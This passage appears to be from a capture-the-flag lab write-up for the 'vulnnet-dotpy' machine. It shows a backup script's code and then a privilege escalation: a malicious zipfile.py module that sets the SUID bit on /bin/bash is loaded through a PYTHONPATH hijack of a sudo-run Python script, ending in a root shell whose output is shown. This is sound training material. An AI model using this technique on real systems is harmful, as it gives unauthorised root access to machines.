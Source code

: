```py
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

Armed with above information, we can escalate to root!

**To do so, we can add a `PYTHONPATH` environment variable to hijack `/opt/backup.py` python library!**

- Create a malicious module file named `zipfile`:

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ cat << EOF > zipfile.py
> import os
> os.system('chmod +s /bin/bash')
> EOF
```

> Note: The above `os.system()` is adding SUID sticky bit to `/bin/bash`.

- Run `/opt/backup.py`, which will load our malicious module:

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ sudo PYTHONPATH=/tmp/pip-j6gu500m-build /usr/bin/python3 /opt/backup.py
```

- Verify `/bin/bash` has SUID sticky bit or not:

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Apr  4  2018 /bin/bash
```

**Nice! Let's use `/bin/bash -p` to spawn a SUID privilege bash shell!**
```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
vulnnet-dotpy
uid=1000(system-adm) gid=1000(system-adm) euid=0(root) egid=0(root) groups=0(root),24(cdrom),1000(system-adm)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:75:2b:22:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.130.194/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2530sec preferred_lft 2530sec
```